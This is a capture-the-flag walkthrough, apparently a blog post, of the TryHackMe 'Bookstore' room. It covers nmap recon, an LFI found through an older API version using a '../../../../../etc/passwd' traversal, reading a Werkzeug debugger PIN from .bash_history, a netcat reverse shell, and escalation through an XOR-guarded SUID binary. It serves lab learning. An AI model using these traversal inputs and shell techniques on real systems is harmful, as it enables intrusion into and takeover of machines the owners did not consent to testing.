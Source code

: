 ## Bookstore THM walkthrough

Bookstore is medium rated room in tryhackme where attacker can test their api hacking skills. It contains some basic api vulnerability by leveraging which attacker had to gain full access to the machine. Let's start.
## Initial recon

The first thing we do is run nmap against the target ip and find out which ports are opened.
`nmap 10.10.247.2 -sC -sV`. The output of the command is shown below.
```
┌──(samsec㉿kali)-[/usr/share/dict]
└─$ nmap 10.10.247.2 -sC -sV    
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 18:06 +0545
Nmap scan report for 10.10.247.2 (10.10.247.2)
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
|_  256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Book Store
|_http-server-header: Apache/2.4.29 (Ubuntu)
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
|_http-title: Home
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-server-header: Werkzeug/0.14.1 Python/3.6.9
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.13 seconds
```

We see 3 ports are opened. Webserver is running on port 80, we have ssh opening and some api running in port 5000. Let's check out the web app first on port 80.

## Web App Enumeration

There's nothing much in the website. We see normal interface and no much endpoints rather than a single login page. We can't signup or create the users also. 
![[website.png]]
![[login.png]]

So, let's head towards enumerating API on port 5000.

## API enumeration

We see the foxy REST API running. What can we do further if we don't have API documentation? Nothing. It's time to do directory bruteforcing or we can check out robots.txt file and find out the disallowed entry for /api.
![[robots.png]]

When viewing the /api endpoints , now we see the documentation for API. We see some endpoints that the API accepts. We view all the available endpoints manually and at the same time we keep our burp running on background so that we can analyze the endpoints further.![[documentation.png]]

When viewing all the endpoints, I didn't find anything interesting. After roaming around the website further, I check the js files. When viewing /api.js file, there is something left over in the comment. ![[comment.png]]

Guess what??. There was LFI vulnerability in the previous version of API ie. v1. Now they updated the version to v2 patching the previous vulnerability.
When you are testing the API, it's always a good practice to look around for Improper Assets Management(changing the version of the api to lower and seeing how the api reacts to the older version). I tried to figure out the changes in older version long time but couldn't move further. I was stuck for a moment. I get lost because  i kept testing the `10.10.247.2:5000/api/v2/resources/books/random4` , trying to find out it accepts any parameters in the older version by which we can find out the LFI issues. This endpoint was safe cause the older version ie. `10.10.247.2:5000/api/v1/resources/books/random4` was removed and replaced with the new one. 
After hanging for a minute, I read the documentation thoroughly and i noticed something. 
![[interesting.png]]

2 or more??? What does that means?? Does this endpoint accepts some other parameters too. To my surprise it did. Running Param Miner on this endpoint reveal `show` parameter. If you append this parameter with value `../../../../../etc/passwd` you get same results as with 2 parameters. But there was vulnerability in previous version right?? So let's check the older version and BOOM!! We get the /etc/passwd of the server. 

![[lfi.png]]

We found the LFI issue in the API. What's next??

## Gaining access to the machine

I tried to read the .ssh/id_rsa if any cause i know there is ssh opened but this  lead to nowhere. When directory bruteforcing the website, I found the endpoint `/console` . And also there is commented line in login.html that says the debugger pin is in the .bash_history file. 
![[debugger.png]]

So, the goal is to get the pin using LFI in the .bash_history file and accessing the /console using that pin. 
![[pin.png]]

Access the console using the pin and run the reverse shell on the console.
You can get the reverse shell payload from `revshells.com` . Set the netcat listener and run the payload and get the reverse shell. 
```
┌──(samsec㉿kali)-[~]
└─$ nc -lnvp 4444            
listening on [any] 4444 ...
connect to [10.17.70.133] from (UNKNOWN) [10.10.247.2] 49434
$ whoami
whoami
sid
$ 

```

You can clean up the tty shell with following lines of command. 
```
SHELL=/bin/bash script -q /dev/null
python3 -c 'import pty; pty.spawn("/bin/bash")'

hit CTRL+Z to run the process in backgroung and run below command
stty raw -echo && fg

the process will run in foreground after this and type reset
and type xterm,
for colorful shell export the term variable. 

export TERM=xterm
You will get fully interactive shell.

```

You can get the user flag easily by doing `cat user.txt`

Now it's time to get the root flag.

## Privilege Escalation

There is binary file having suid bit set called `tryharder`. When running the file, we are prompted to enter the magic number and if that'st correct , we will get the shell, I guess?
```
sid@bookstore:~$ ls
api.py  api-up.sh  books.db  try-harder  user.txt
sid@bookstore:~$ ./try-harder 
What's The Magic Number?!
123
Incorrect Try Harder
sid@bookstore:~$
```

Let's do some reversing using Ghidra. Download the binary to the local machine by hosting python server in the machine and wget to download it.
```
┌──(samsec㉿kali)-[~]
└─$ cd /tmp
                                                                                                                                                  
┌──(samsec㉿kali)-[/tmp]
└─$ wget 10.10.247.2:8000/try-harder
--2023-10-11 19:40:36--  http://10.10.247.2:8000/try-harder
Connecting to 10.10.247.2:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8488 (8.3K) [application/octet-stream]
Saving to: ‘try-harder’

try-harder                           100%[====================================================================>]   8.29K  --.-KB/s    in 0s      

2023-10-11 19:40:37 (176 MB/s) - ‘try-harder’ saved [8488/8488]
```

When decompiling the binary in Ghidra we see the function as:
![[ghidra.png]]

That's it. The goal is to find out the number a where `a ^ 23987 ^4374 = 1573724660` where `^` represents XOR and I've decoded the hex value into decimal. On doing so we get the value of a which is the number we need to input in order to get the shell.
```
┌──(samsec㉿kali)-[/tmp]
└─$ python3 
Python 3.11.5 (main, Aug 29 2023, 15:31:31) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x5db3
23987
>>> 0x1116
4374
>>> 0x5dcd21f4
1573724660
>>> 23987 ^ 4374 ^ 1573724660
1573743953
>>> 

```

We get the shell as root. Now we completed the room. ![[root.png]]

It was little bit overwhelming to get the initial foothold and root was a bit messy for me because i was new to Ghidra when doing this room. Anyway this room teach  me lot more stuffs about about API enumeration and reverse engineering. That much for this blog.
